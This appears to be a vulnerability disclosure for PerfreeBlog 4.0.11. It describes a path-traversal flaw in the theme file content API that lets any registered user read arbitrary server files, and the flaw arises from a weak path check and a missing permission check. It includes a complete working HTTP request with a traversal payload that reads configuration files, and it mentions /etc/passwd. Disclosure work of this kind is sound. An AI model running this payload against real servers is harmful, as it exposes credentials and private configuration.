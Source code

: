 # Arbitrary File Read Vulnerability in PerfreeBlog System

## Official Website
https://perfree.org.cn/

## Download Link
https://gitee.com/PerfreeBlog/PerfreeBlog


## Vulnerability Description
The PerfreeBlog system has an arbitrary file read vulnerability, which allows reading any files on the server.


## Vulnerable Version
Latest version 4.0.11


## Vulnerability Principle
The relevant code details are as follows:
In the interface called to obtain the content of theme files
![](./img/3.png)
It is found that it uses the `validThemeFilePath` function to verify the legitimacy of the path
![](./img/1.png)
When entering the `validThemeFilePath` function, it is found that the verification conditions are:
1. The path must exist and not be empty.
2. The incoming `path` must contain the `themePath`.

Therefore, path traversal can be achieved using `../`.
![](./img/2.png)

Moreover, this vulnerable interface has an unauthorized access issue. It is found that it does not use `hasPermission` for permission verification, so registered users can be used to read any files on the server.
![](./img/8.png)


## Vulnerability Reproduction
It can be equivalent to an unauthorized file read vulnerability.

First, use the `Authorization` of a newly registered ordinary user for operation, which is equivalent to an unauthorized operation.
![](./img/9.png)


Obtaining the absolute path:
Access the following interface to obtain the absolute path. The principle is that the downloaded file does not exist.
http://127.0.0.1:8086/api/attach/file/1/get/22222
![](./img/10.png)

Modify `path` and `themePath` to achieve arbitrary file reading.

The interface is:
```
http://127.0.0.1:8086/api/auth/theme/getThemeFileContent
```

The `path` only needs to contain `themePath`.

Data packet:
```
POST /api/auth/theme/getThemeFileContent HTTP/1.1
Host: 127.0.0.1:8086
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ0ZXN0MTIzIiwiaXNzIjoic2VjdXJpdHkiLCJpYXQiOjE3NTU1MTQ0MzksImF1ZCI6InNlY3VyaXR5LWFsbCIsImV4cCI6MTc1NTUyMTYzOX0.KYmf_1EgVHrVoEy_N8tWPXH9SyNtEVHHvcjCLP3Oocg
Content-Length: 202
Origin: http://127.0.0.1:8086
Connection: keep-alive
Referer: http://127.0.0.1:8086/admin/theme/edit/default
Cookie: cms.locale=zh; PUBLICCMS_ANALYTICS_ID=b949b56a-32b4-4c16-9017-6619c6601ec5; PUBLICCMS_ADMIN=1_2a8f2932-74c5-40b9-ac72-01ef30167826; JSESSIONID=9DEEB713CA3E50909F7E86A3377C4366
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

{"themePath":"default\\..\\..\\..\\..\\","path":"F:\\test\\java1\\PerfreeBlog-main\\resources\\static\\themes\\default\\..\\..\\..\\..\\perfree-server\\src\\main\\resources\\application-prod.yaml"}
```

`themePath` is set to:
```
default\\..\\..\\..\\..\\
```


Reading pom.xml:

The `path` is:
```
File path + resources\\static\\themes\\default\\..\\..\\..\\..\\pom.xml
```
![](./img/6.png)

Reading configuration files:

The `path` is:
```
File path + resources\\static\\themes\\default\\..\\..\\..\\..\\perfree-server\\src\\main\\resources\\application-prod.yaml
```
![](./img/7.png)

For Linux systems, files such as `/etc/passwd` can be read.


Location of the vulnerable interface in the menu - Theme Management
![](./img/11.png)
